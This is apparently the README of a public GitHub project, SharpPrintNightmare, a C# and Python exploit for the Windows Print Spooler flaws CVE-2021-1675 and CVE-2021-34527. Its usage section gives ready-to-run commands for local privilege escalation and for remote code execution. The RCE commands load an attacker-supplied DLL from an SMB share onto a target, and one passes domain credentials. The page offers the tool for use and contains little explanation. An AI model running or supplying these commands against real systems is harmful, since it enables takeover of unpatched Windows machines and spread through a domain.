


# C# Implementation of CVE-2021-1675 / CVE-2021-34527

### Update

New `CVE-2021-1675.py` has been uploaded which will get the same result as the C# version

No longer need to manually specify pConfigFile with C# version

### Usage

The RCE functionality might need to be executed with local administrator privileges on YOUR machine.

```
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
```





### Acknowledgements
For contributing new ideas or exploit improvements, thanks to
* [kiqrx](https://www.hackthebox.eu/home/users/profile/72916)
